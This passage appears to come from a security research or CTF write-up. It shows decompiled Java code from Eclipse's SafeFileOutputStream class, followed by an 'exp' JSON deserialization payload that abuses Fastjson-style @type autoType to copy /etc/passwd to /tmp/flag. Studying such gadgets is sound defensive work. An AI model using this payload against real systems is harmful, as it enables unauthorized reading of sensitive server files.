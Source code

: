 ```java  
        }    
    }    
    
    protected void createTempFile(String tempPath) {    
        if (tempPath == null) {    
            tempPath = this.target.getAbsolutePath() &#43; &#34;.bak&#34;;    
        }    
    
        this.temp = new File(tempPath);    
    }    
    
    public void flush() throws IOException {    
        try {    
            this.output.flush();    
        } catch (IOException var2) {    
            IOException e = var2;    
            this.failed = true;    
            throw e;    
        }    
    }    
    
    public String getTempFilePath() {    
        return this.temp.getAbsolutePath();    
    }    
    
    protected void transferStreams(InputStream source, OutputStream destination) throws IOException {    
        byte[] buffer = new byte[8192];    
    
        while(true) {    
            int bytesRead = source.read(buffer);    
            if (bytesRead == -1) {    
                return;    
            }    
    
            destination.write(buffer, 0, bytesRead);    
        }    
    }    
    
    public void write(int b) throws IOException {    
        try {    
            this.output.write(b);    
        } catch (IOException var3) {    
            IOException e = var3;    
            this.failed = true;    
            throw e;    
        }    
    }    
}  
```  
exp  
```java  
{&#34;@type&#34;:&#34;java.lang.AutoCloseable&#34;,&#34;@type&#34;:&#34;org.eclipse.core.internal.localstore.SafeFileOutputStream&#34;,&#34;tempPath&#34;:&#34;/etc/passwd&#34;,&#34;targetPath&#34;:&#34;/tmp/flag&#34;}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408032212986.png)
  